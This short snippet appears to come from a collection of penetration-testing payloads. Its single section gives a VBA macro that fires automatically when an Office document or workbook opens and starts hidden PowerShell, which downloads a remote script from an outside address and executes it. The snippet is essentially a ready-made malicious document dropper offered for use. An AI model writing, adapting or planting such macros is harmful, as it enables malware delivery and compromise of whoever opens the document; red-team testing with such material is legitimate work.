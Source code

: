 Macros Section for testing payloads

A simple Macro Payload to execute a URL via PowerShell

``

Sub Auto_Open()
   Dim exec As String
   Dim payload As String
   exec = "powershell.exe -WindowStyle hidden -nologo -noprofile -c ""IEX ((New-Object Net.WebClient).DownloadString('https://10.10.10.10./payload.ps1'))"""
   Shell (exec)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
   Auto_Open
End Sub

``
